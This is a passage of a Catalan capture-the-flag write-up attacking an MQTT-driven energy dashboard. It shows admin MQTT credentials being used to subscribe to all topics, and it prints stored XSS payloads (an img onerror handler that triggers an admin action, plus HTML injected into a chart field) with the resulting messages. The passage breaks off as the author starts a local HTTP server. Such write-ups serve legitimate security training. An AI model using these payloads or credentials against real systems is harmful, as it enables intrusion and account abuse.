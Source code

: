 ```javascript
                        showMessage('Record was end successfully!')
                    }, 1500);
                }
            }
            document.getElementById('send-record-id').onclick = sendrecord;
...
```

Aquesta funció crea una imatge del gràfic de barres en base64 i, juntament amb altres dades, les envia en un JSON al topic `record` quan l'usuari fa clic al botó `#send-record-id`.

També trobem una altra adreça accessible mitjançant un enllaç: `/records/`. Aquesta adreça no és accessible per l'usuari `calvin`, ja que no té el rol d'administrador.

Ens subscrivim a tots els topics (`#`) utilitzant les credencials `admin:tJH8HvwVwC57BR6CEyg5`, i enviem el següent JSON al topic `data`:

```json
{
  "solarEnergy": "<img src=x onerror=\"document.querySelector(`#send-record-id`).dispatchEvent(new Event('click'));\" />",
  "consumedEnergy": 15
}
```

Rebem el següent JSON al topic `record`:

```json
{"time":"2024-09-02T22:43:52.187Z","user":{"name":"JulianAdm","role":"admin"},"solar":"<img src=x onerror=\"document.querySelector(`#send-record-id`).dispatchEvent(new Event('click'));\" />","consumed":15,"grid":null,"chart":"data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAZAAAADICAYAAADGFbfiAAAgAElEQVR4Xu2dC3QV1b3GgYQYoAUSsMqjRVp5WAsWHwgVV6Mi2tt7aanGFwYDiAnPolXx ... BIgf8D+epLMhrp9ocAAAAASUVORK5CYII="}
```

Els missatges enviats al topic `data` amb l'XSS s'eliminen en rebre noves dades cada 2 segons.

Intentem publicar dades al topic `record` amb l'usuari `admin` del servei MQTT i no tenim problemes, podem fer-ho. Així que intentem introduir un altre XSS al paràmetre `chart` del JSON, intuïnt que serà introduït a l'atribut `src` d'una etiqueta `<img>` d'HTML:

```json
{
  "time": "2024-09-02T23:25:15.855Z",
  "user": {
    "name": "JulianAdm",
    "role": "admin"
  },
  "solar": 211,
  "consumed": 168,
  "grid": -43,
  "chart": "\"><h1>XSS</h1></"
}
```

D'altra banda, intentem obtenir la pàgina allotjada a `/records/`. Sembla tenir relació amb aquest nou topic. Tornem a aixecar el servei HTTP al port 80 a la nostra màquina:
